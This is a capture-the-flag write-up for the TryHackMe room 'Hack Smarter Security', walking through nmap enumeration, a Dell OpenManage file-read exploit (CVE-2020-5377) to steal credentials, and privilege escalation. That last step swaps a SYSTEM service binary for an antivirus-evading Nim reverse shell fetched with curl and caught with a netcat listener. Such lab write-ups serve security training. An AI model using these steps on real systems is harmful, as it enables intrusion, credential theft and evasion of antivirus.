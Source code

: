 ```yaml
---
title: "TryHackMe: Hack Smarter Security"
collection: publications
permalink: /publication/Hacksmartersec
excerpt: 'This is a free room from TryHackMe'
date: 2024-03-19
venue: '03-19'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/Hack%20Smarter%20Security_header.png)

**LINK:** [Hack Smarter Security](https://tryhackme.com/r/room/hacksmartersecurity)

## Enumeration 

* Let's start off with an nmap scan :

```bash
# nmap -sV -sC -T4 10.10.11.112
Nmap scan report for 10.10.11.112 (10.10.11.112)
Host is up (0.058s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 06-28-23  02:58PM                 3722 Credit-Cards-We-Pwned.txt
|_06-28-23  03:00PM              1022126 stolen-passport.png
22/tcp   open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 0dfadadec9dd998d2e8eeb3b93ffe26c (RSA)
|   256 5d0cdf3226d371a28e6e9a1c43fc1a03 (ECDSA)
|_  256 c425e709d6c9d9865f6e8a8bec134a8b (ED25519)
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HackSmarterSec
1311/tcp open  ssl/rxmon?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 
|     Strict-Transport-Security: max-age=0
|     X-Frame-Options: SAMEORIGIN
|     X-Content-Type-Options: nosniff
|     X-XSS-Protection: 1; mode=block
|     vary: accept-encoding
|     Content-Type: text/html;charset=UTF-8
|     Date: Mon, 18 Mar 2024 14:19:47 GMT
|     Connection: close
|     
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=hacksmartersec
| Not valid before: 2024-03-17T14:16:19
|_Not valid after:  2024-09-16T14:16:19
| rdp-ntlm-info: 
|   Target_Name: HACKSMARTERSEC
|   NetBIOS_Domain_Name: HACKSMARTERSEC
|   NetBIOS_Computer_Name: HACKSMARTERSEC
|   DNS_Domain_Name: hacksmartersec
|   DNS_Computer_Name: hacksmartersec
|   Product_Version: 10.0.17763
|_  System_Time: 2024-03-18T14:20:01+00:00
|_ssl-date: 2024-03-18T14:20:06+00:00; 0s from scanner time.
```

- The scan revealed that the system was a Windows machine, and we found 5 open ports.
- We also discovered that ``FTP`` anonymous login was enabled but didn't find anything useful in the files.
- Moving on, we checked the website running on port 80, which turned out to be ``IIS 10.0``. However, our attempts to find interesting files or directories were unsuccessful.

- Moving on, we checked port ``1311`` where we found Dell OpenManage version 9.4.0.2 running.

![hacksmartersec1](/images/hacksmartersec1.png)

- After digging deeper, we learned that this version was vulnerable to CVE-2020-5377, known as ``Arbitrary File Read``.
- I found this [exploit](https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2020-5377_CVE-2021-21514) that will help us read files on the target.
- A quick search reveals that the root folder for the IIS default website is located at ``C:\inetpub\wwwroot``. the idea here is to try to read the ``web.config`` file which is an XML file containing rules for a particular on the web server. this file may contains credentials.

## User Flag : 

- based on the title of the webserver on port 80 it's hacksmartersec so i assumed that the ``web.config`` file is located at `` C:\inetpub\wwwroot\hacksmartersec\web.config``.

![hacksmartersec2](/images/hacksmartersec2.png)

- Bingoo. now we have the credentials so our next step is to login via ssh and get the user flag.

![hacksmartersec3](/images/hackersmartsec3.png)

## Root Flag : 

- For the privilege escalation part, i used ``winPEAS`` but the antivirus picked it up. So, i switched to ``PrivescCheck.ps1`` instead. I found that the ``spoofer-scheduler`` service's binary was running with a lot of permissions as LocalSystem.

![hacksmartersec4](/images/hacksmartersec4.png)

- The plan now is to stop the ``spoofer-scheduler`` service. Then, we put our own sneaky code into its binary to get a shell back. Then restart the service and get a super-powered shell as SYSTEM.

- Stopping the ``spoofer-scheduler`` service . 

![hacksmartersec5](/images/hacksmartersec5.png)

- I couldn't just use a regular sneaky shell because the antivirus would catch me. So, I found this [Nim](https://github.com/Sn1r/Nim-Reverse-Shell/blob/main/rev_shell.nim) reverse shell that's good at hiding from antivirus software (don't forget to change your ip address).

- Now it's time to compile it to an exe named ``spoofer-scheduler.exe`` to match the service's binary. Then, we put it on the target system, ready to run when we restart the service.

```
# Compiling the reverse shell
nim -c -d:mingw --app:gui -o:spoofer-scheduler.exe nim_revshell.nim
```
![hacksmartersec6](/images/hacksmartersec6.png)

```
# Start a web server on your machine

python3 -m http.server <PORT>
```

```
# Download the spoofer-scheduler.exe on target (make sure you are in C:\Program Files (x86)\spoofer)

curl http://<server-ip>:PORT/spoofer-scheduler.exe -o spoofer-scheduler.exe
```

- Now start a netcat listener to get the reverse shell after starting the service

```
nc -nlvp <listener-port>
```

```
# start the service

sc start spoofer-scheduler
```

![hacksmartersec7](/images/hacksmartersec7.png)

- we get a connection back to our listener 

![hacksmartersec8](/images/hacksmartersec8.png)










